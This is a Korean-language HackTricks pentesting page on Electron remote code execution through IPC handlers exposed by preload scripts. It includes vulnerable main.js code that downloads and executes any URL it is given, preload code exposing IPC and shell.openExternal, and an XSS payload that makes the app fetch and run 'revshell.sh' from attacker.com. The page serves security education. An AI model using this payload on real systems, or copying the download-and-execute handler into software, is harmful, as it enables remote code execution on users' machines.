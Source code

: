 # Electron contextIsolation RCE via IPC

<details>

<summary><strong>htARTE (HackTricks AWS Red Team 전문가)로부터 AWS 해킹을 제로부터 전문가까지 배우세요</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되길 원하거나 HackTricks를 PDF로 다운로드**하고 싶다면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [Discord 그룹](https://discord.gg/hRep4RUj7f)** 또는 [텔레그램 그룹](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

만약 preload 스크립트가 main.js 파일에서 IPC 엔드포인트를 노출한다면, 렌더러 프로세스는 해당 엔드포인트에 액세스할 수 있고 취약하다면 RCE가 가능할 수 있습니다.

**대부분의 예시는 여기서 가져왔습니다** [**https://www.youtube.com/watch?v=xILfQGkLXQo**](https://www.youtube.com/watch?v=xILfQGkLXQo). 자세한 정보는 비디오를 확인하세요.

## 예시 0

[https://speakerdeck.com/masatokinugawa/how-i-hacked-microsoft-teams-and-got-150000-dollars-in-pwn2own?slide=21](https://speakerdeck.com/masatokinugawa/how-i-hacked-microsoft-teams-and-got-150000-dollars-in-pwn2own?slide=21)에서 가져온 예시 (MS Teams가 XSS에서 RCE로 남용되는 방법에 대한 전체 예시가 있습니다. 이것은 매우 기본적인 예시입니다):

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

## 예시 1

`main.js`가 `getUpdate`를 수신하고 **전달된 모든 URL을 다운로드하고 실행**할 수 있는 방법을 확인하세요.\
또한 `preload.js`가 main에서 **모든 IPC** 이벤트를 노출하는 방법을 확인하세요.
```javascript
// Part of code of main.js
ipcMain.on('getUpdate', (event, url) => {
console.log('getUpdate: ' + url)
mainWindow.webContents.downloadURL(url)
mainWindow.download_url = url
});

mainWindow.webContents.session.on('will-download', (event, item, webContents) => {
console.log('downloads path=' + app.getPath('downloads'))
console.log('mainWindow.download_url=' + mainWindow.download_url);
url_parts = mainWindow.download_url.split('/')
filename = url_parts[url_parts.length-1]
mainWindow.downloadPath = app.getPath('downloads') + '/' + filename
console.log('downloadPath=' + mainWindow.downloadPath)
// Set the save path, making Electron not to prompt a save dialog.
item.setSavePath(mainWindow.downloadPath)

item.on('updated', (event, state) => {
if (state === 'interrupted') {
console.log('Download is interrupted but can be resumed')
}
else if (state === 'progressing') {
if (item.isPaused()) console.log('Download is paused')
else console.log(`Received bytes: ${item.getReceivedBytes()}`)
}
})

item.once('done', (event, state) => {
if (state === 'completed') {
console.log('Download successful, running update')
fs.chmodSync(mainWindow.downloadPath, 0755);
var child = require('child_process').execFile;
child(mainWindow.downloadPath, function(err, data) {
if (err) { console.error(err); return; }
console.log(data.toString());
});
}
else console.log(`Download failed: ${state}`)
})
})
```

```javascript
// Part of code of preload.js
window.electronSend = (event, data) => {
ipcRenderer.send(event, data);
};
```
악용:
```html
<script>
electronSend("getUpdate","https://attacker.com/path/to/revshell.sh");
</script>
```
## 예제 2

만약 preload 스크립트가 렌더러에 직접 `shell.openExternal`을 호출할 수 있는 방법을 노출한다면 RCE를 얻을 수 있습니다.
```javascript
// Part of preload.js code
window.electronOpenInBrowser = (url) => {
shell.openExternal(url);
};
```
## 예제 3

preload 스크립트가 완전히 주요 프로세스와 통신할 수 있는 방법을 노출하는 경우 XSS는 어떤 이벤트든 보낼 수 있습니다. 이는 주요 프로세스가 IPC 측면에서 노출하는 것에 따라 영향이 있습니다.
```javascript
window.electronListen = (event, cb) => {
ipcRenderer.on(event, cb);
};

window.electronSend = (event, data) => {
ipcRenderer.send(event, data);
};
```
<details>

<summary><strong>제로부터 영웅이 될 때까지 AWS 해킹 배우기</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되길 원하거나 HackTricks를 PDF로 다운로드하고 싶다면** [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f)에 가입하거나 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나 **트위터** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **해킹 트릭을 공유하고 싶다면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>

